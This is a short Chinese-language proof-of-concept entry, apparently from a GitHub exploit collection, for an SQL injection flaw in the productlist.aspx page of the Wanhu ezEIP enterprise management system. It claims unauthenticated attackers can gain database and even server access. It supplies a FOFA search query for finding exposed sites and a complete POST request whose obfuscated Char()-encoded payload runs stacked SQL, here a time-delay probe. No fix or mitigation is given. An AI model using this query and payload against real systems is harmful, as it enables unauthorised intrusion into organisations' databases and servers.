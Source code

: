 # 万户ezEIP企业管理系统productlist.aspx存在SQL注入漏洞

万户ezEIP企业管理系统productlist.aspx存在SQL注入漏洞，未授权的攻击者可利用此漏洞获取数据库权限，深入利用可获取服务器权限。

## fofa

```javascript
body="ezEIP" || header="ezEIP" || body="css/css_whir.css"
```

## poc

```javascript
POST /shop/productlist.aspx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded

ob=price&price=asc&svids=-1%29%3BDECLARE+%40%40proc_name+VARCHAR%28301%29%3BSet+%40%40proc_name%3DChar%28115%29%252bChar%28101%29%252bChar%28108%29%252bChar%28101%29%252bChar%2899%29%252bChar%28116%29%252bChar%2832%29%252bChar%2849%29%252bChar%2832%29%252bChar%28119%29%252bChar%28104%29%252bChar%28101%29%252bChar%28114%29%252bChar%28101%29%252bChar%2832%29%252bChar%2849%29%252bChar%2861%29%252bChar%2849%29%252bChar%2832%29%252bChar%2887%29%252bChar%2865%29%252bChar%2873%29%252bChar%2884%29%252bChar%2870%29%252bChar%2879%29%252bChar%2882%29%252bChar%2832%29%252bChar%2868%29%252bChar%2869%29%252bChar%2876%29%252bChar%2865%29%252bChar%2889%29%252bChar%2832%29%252bChar%2839%29%252bChar%2848%29%252bChar%2858%29%252bChar%2848%29%252bChar%2858%29%252bChar%2853%29%252bChar%2839%29%3BEXECUTE+%28%40%40proc_name%29%3B--a%2B
```

![image-20241017144051590](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410171440685.png)